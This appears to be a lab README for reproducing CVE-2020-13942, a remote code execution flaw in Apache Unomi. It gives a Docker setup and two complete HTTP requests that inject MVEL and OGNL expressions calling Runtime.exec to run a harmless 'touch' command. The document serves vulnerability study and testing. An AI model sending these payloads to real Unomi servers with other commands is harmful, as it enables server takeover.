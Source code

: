 # Apache Unomi Remote Express Language Code Execution (CVE-2020-13942)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Unomi is a Java Open Source customer data platform, a Java server designed to manage customers, leads and visitors’ data and help personalize customers experiences.

In the versions prior to 1.5.1, Apache Unomi allowed remote attackers to send malicious requests with MVEL and OGNL expressions that could contain arbitrary classes, resulting in Remote Code Execution (RCE) with the privileges of the Unomi application.

## Environment Setup

Execute following commands to start an Apache Unomi server 1.5.1:

```
docker-compose up -d
```

After the environment is started, you can access Unomi's API through `http://your-ip:8181` or `https://your-ip:9443`.

## Vulnerability Reproduce

The vulnerability can be triggered through both ports 8181 and 9443.

Execute arbitrary commands through MVEL expressions:

```
POST /context.json HTTP/1.1
Host: localhost:8181
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 483

{
    "filters": [
        {
            "id": "sample",
            "filters": [
                {
                    "condition": {
                         "parameterValues": {
                            "": "script::Runtime r = Runtime.getRuntime(); r.exec(\"touch /tmp/mvel\");"
                        },
                        "type": "profilePropertyCondition"
                    }
                }
            ]
        }
    ],
    "sessionId": "sample"
}
```

Execute arbitrary commands through OGNL expressions:

```
POST /context.json HTTP/1.1
Host: localhost:8181
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 1064

{
  "personalizations":[
    {
      "id":"gender-test",
      "strategy":"matching-first",
      "strategyOptions":{
        "fallback":"var2"
      },
      "contents":[
        {
          "filters":[
            {
              "condition":{
                "parameterValues":{
                  "propertyName":"(#runtimeclass = #this.getClass().forName(\"java.lang.Runtime\")).(#getruntimemethod = #runtimeclass.getDeclaredMethods().{^ #this.name.equals(\"getRuntime\")}[0]).(#rtobj = #getruntimemethod.invoke(null,null)).(#execmethod = #runtimeclass.getDeclaredMethods().{? #this.name.equals(\"exec\")}.{? #this.getParameters()[0].getType().getName().equals(\"java.lang.String\")}.{? #this.getParameters().length < 2}[0]).(#execmethod.invoke(#rtobj,\"touch /tmp/ognl\"))",
                  "comparisonOperator":"equals",
                  "propertyValue":"male"
                },
                "type":"profilePropertyCondition"
              }
            }
          ]
        }
      ]
    }
  ],
  "sessionId":"sample"
}
```

Enter the Docker container, you can see that the command has been executed successfully:

![](1.png)